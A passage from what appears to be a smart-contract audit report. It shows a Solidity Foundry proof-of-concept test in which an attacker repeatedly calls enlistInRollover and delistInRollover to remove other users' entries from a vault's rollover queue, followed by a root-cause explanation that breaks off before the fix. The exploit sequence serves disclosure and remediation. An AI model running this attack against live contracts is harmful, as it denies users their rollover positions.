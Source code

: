 ```solidity
        premiumVault.depositETH{value:1e18}(
            epochId2,user2
        );
        vm.prank(user2);
        premiumVault.enlistInRollover(
            epochId2,1e18,user2
        );

        // checking that entry was added correctly to rollover queue
        uint256 rolloverLength = premiumVault.getRolloverQueueLenght();
        assertEq(rolloverLength,2);
        (uint256 assets_,address receiver_,uint256 epochId_) = premiumVault.rolloverQueue(1);
        assertEq(assets_,1e18);
        assertEq(receiver_,user2);

        // attacker notices the enlist and forces the user's entry out of the queue
        // the attacker calling enlistInRollover(..) again will grant it access to the user's entry
        vm.prank(attacker);
        premiumVault.enlistInRollover(
            epochId2,10000,attacker
        );
        // with control of the user's entry, the attacker can simply call delistInRollover(..) to remove it
        vm.prank(attacker);
        premiumVault.delistInRollover(
            attacker
        );
        // the attacker can keep continuing this process over and over to prevent anyone from entering the rollover queue

        // showing that the user's entry has been removed from the rollover queue, which they will not know happened
        rolloverLength = premiumVault.getRolloverQueueLenght();
        assertEq(rolloverLength,1); // an item has been removed
        (assets_,receiver_,epochId_) = premiumVault.rolloverQueue(0);
        assertEq(assets_,10000); // remaining item is the attacker's, thus user's item was deleted and cannot be rolled over
        assertEq(receiver_,attacker);
    }

}
```

## Tool used

Manual Review

## Recommendation

This attack vector is made possible because the caller of `enlistInRollover(..)` will always be set to be the owner of the last entry in the rolloverQueue due to the following line of code: `ownerToRollOverQueueIndex[_receiver] = rolloverQueue.length;`. To resolve this issue, the `enlistInRollover` function should be updated in the following way, moving that line inside the else block only when a new entry is being added to the rolloverQueue:
